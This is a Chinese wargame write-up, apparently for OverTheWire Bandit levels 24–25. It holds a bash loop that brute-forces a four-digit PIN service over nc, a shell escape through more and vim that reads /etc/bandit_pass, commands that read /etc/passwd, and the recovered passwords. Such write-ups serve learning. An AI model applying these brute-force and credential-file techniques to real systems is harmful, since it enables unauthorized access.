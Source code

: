 ## 0x24

题意要求向localhost的30002端口发送长度为4的pin码，暴力破解

本题要求掌握nc和脚本写法

```
# 首先尝试nc连接到localhost的30002端口
nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
# 根据返回提示，撰写脚本
pass24="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
nc localhost 30002
for i in {0..9}{0..9}{0..9}{0..9}
do
    echo $pass24' '$i >> dict
done
cat ./dict | nc localhost 30002 >> re
sort re | uniq -u
# 执行后得到答案
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

## 0x25

```
# 进入界面后，发现界面下有bandit26.sshkey。使用该文件进行连接
ssh -i bandit26.sshkey -l bandit26 localhost
# 发现直接退出
# 尝试在原命令后接 cat /etc/bandit_pass/bandit26，程序一直卡顿
# 题目提示bandit26的shell不是bash，进入/etc/passwd查看
cat /etc/passwd
# 发现bandit26的shell是/usr/bin/showtext
# 查看showtext
cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
# 程序执行more命令后，直接退出
# 再次使用ssh连接localhost，并将终端大小缩小方便执行more命令
ssh -i bandit26.sshkey -l bandit26 localhost
# 输入!/bin/sh尝试进入命令行，失败
# 输入v，进入vim模式
# 使用:e file，可以导入文件到编辑器
:e /etc/bandit_pass/bandit26

5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```
